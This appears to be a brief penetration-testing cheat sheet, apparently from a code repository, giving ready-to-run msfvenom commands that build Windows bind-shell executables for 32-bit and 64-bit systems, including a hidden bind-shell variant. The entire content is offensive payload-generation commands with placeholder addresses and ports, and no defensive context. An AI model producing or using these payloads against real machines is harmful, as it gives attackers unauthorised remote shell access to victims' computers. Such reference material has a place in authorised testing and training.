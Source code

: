 # Bind Shells

## 01 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell_bind_tcp lport=<PORT> -f exe -o shell-x86.exe

$ msfvenom -p windows/shell_bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe
```

## 02 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_bind_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86-64.exe
```